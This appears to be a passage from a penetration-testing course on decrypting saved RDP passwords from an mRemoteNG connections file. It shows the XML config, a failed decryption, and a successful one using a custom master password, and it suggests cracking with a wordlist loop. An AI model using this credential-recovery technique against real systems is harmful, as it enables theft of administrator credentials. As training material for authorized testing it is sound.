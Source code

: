 ```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="1ZR9DpX3eXumopcnjhTQ7e78u+SXqyxDmv2jebJg09pg55kBFW+wK1e5bvsRshxuZ7yvteMgmfMW5eUzU4NG" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="False" 
    
<SNIP>
</Connections>
```

If we attempt to decrypt the `Password` attribute from the node `RDP_Domain`, we will get the following error.

### **Attempt to Decrypt the Password with a Custom Password**

```shell-session
$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="

Traceback (most recent call last):
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 49, in <module>
    main()
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 45, in main
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 567, in decrypt_and_verify
    self.verify(received_mac_tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 508, in verify
    raise ValueError("MAC check failed")
ValueError: MAC check failed
```

If we use the custom password, we can decrypt it.

### **Decrypt the Password with mremoteng\_decrypt and a Custom Password**

```shell-session
$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin

Password: ASDki230kasd09fk233aDA
```

In case we want to attempt to crack the password, we can modify the script to try multiple passwords from a file, or we can create a Bash `for loop`. We can attempt to crack the `Protected` attribute or the `Password` itself. If we try to crack the `Protected` attribute once we find the correct password, the result will be `Password: ThisIsProtected`. If we try to crack the `Password` directly, the result will be `Password: <PASSWORD>`.
